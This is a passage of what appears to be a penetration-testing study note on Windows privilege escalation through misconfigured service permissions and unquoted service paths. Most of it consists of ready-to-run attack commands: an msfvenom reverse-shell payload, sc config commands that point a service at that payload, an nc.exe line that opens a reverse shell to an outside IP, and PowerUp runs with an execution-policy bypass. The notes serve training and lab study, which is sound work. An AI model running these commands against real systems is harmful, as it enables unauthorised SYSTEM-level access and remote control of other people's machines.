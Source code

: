2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o reverse.exe
```
3. Copy the generated file `reverse.exe`, to the Windows VM.

### Windows VM

1. Place `reverse.exe` in` 'C:\Temp'`
2. In command prompt type: 
```console
C:\Temp> sc config daclsvc binpath= "C:\Temp\reverse.exe"
```
3. In command prompt type: 
```console
C:\Temp> sc start daclsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.

### If you can't transfer the payload to windows (AV is blocking) use the following exploit in the BinPath
-     sc config <Service> binpath="C:\Users\mssql-svc\Desktop\nc.exe 10.10.16.14 9004 -e cmd.exe"
# <span style="color:lightblue">Unquoted Service Paths</span>

## <span style="color:lightgreen">Methodology</span>

When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege).

In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

## <span style="color:lightgreen">Detection</span>

1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the unquoted service field)
```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/54c3e5a4-cc2c-4627-bb7e-fb1b5540a042)

2. use accesschk tool to check if you can stop & start the service
```
accesschk.exe /accepteula -ucqv unquotedsvc
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/d0f86e09-5009-4cd6-bfb2-4621c844353d)
